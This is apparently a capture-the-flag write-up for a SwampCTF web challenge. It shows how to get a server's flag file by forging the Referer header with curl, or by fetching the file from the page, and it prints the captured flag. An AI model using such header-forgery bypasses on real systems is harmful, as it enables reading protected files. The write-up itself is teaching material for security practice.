 * Description
I took a few hours to create a simple HTML/CSS previewer system. Since there's no way to add JavaScript then my server should be safe, right?

Grab the flag from the http://chals.swampctf.com:47821/flag.txt file on the server to show that this isn't the case.

The flag is in the standard format. Good luck!
http://chals.swampctf.com:47821 

* Solution

[[file:clipboard-20250404T172840.png]]

Let's access the ~/flag~ endpoint according to the description.
[[file:clipboard-20250404T174450.png]]

In backend logic, we see that ~Referer~ HTTP header get checked. this is a *misconfigured CORS* (Cross-Origin Resource Sharing)
[[file:clipboard-20250404T174350.png]]

So we can get ~/flag~ by ~await fetch("flag.txt").then(response=>response.text())~
[[file:clipboard-20250404T175024.png]]

Or custom ~Referer~ header to bypass the checker:
#+begin_src shell
ctf ❯ curl 'http://chals.swampctf.com:47821/flag.txt' -H 'Referer: http://chals.swampctf.com:47821/flag'
swampCTF{c55_qu3r135_n07_j5}%
#+end_src
